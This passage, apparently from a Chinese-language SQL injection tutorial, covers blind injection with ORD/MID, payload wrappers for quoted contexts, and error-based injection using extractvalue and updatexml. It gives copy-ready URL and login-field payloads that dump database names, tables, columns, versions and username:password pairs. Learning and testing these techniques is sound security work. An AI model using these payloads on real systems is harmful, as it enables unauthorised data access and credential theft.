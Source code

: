 ```sql
Ord()函数同ascii()，将字符转为ascii值
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98
ord与mid函数同样可以结合在一起使用,与上面类似
```
以及他们的同义函数等，当然这里还可能会需要很多的转换，比如过滤了等于号可以通过正则或者 in 或者大于小于号等替换之类的，这部分内容我会放在别的文章梳理一下，这里就不赘述了。参见猜解表达式填充位置：
```sql
' or (payload) or ' 
' and (payload) and ' 
' or (payload) and ' 
' or (payload) and '=' 
'* (payload) *' 
' or (payload) and ' 
" – (payload) – "
" +(payload) + "
......
```
# **2 报错注入**
## **2.1 xpath解析错误型报错**
这里一般只用到了两个函数，extractvalue（）、updatexml（），关于两个函数的功能，有不清楚的可以自行查阅学习，这里不做过多介绍。报错原因很简单，updatexml第二个参数需要的是Xpath格式的字符串，如果我们输入的不符合，就会报错。报错回显内容的最大长度是32位的，所以有所局限。因此遇到一些比较长的字符需要主出时候，常常配合mid()、substr等函数执行多次查询，最后的结果由这些碎片字符进行拼接。

常见套路：
```sql
爆库
?id=1' and 1=extractvalue(1,concat(0x7e,(select database()),0x7e)) --+
或者
?id=1' and 1=(updatexml(1,concat(0x3a,(select database()),0x3a),1))%23
爆表
?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
爆字段
?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) --+
爆值
?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e))--+
```
或者使用updatexml函数：
```sql
爆数据库版本信息
?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)  
链接用户
?id=1 and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)  
链接数据库
?id=1 and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) 
爆库
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1),0x7e),1)  
爆表
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select table_name),0x7e) FROM information_schema.tables limit 0,1),0x7e),1)
爆字段
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x7e, (select column_name),0x7e) FROM information_schema.columns limit 0,1),0x7e),1)  
爆字段内容
?id=1 and updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM user limit 0,1),0x7e),1) 
// 一部分一部分的截取
username=admin’or(updatexml(1,concat(0x7e,(select(left(password,25))from(H4rDsq1)),0x7e),1))%23&password=1
```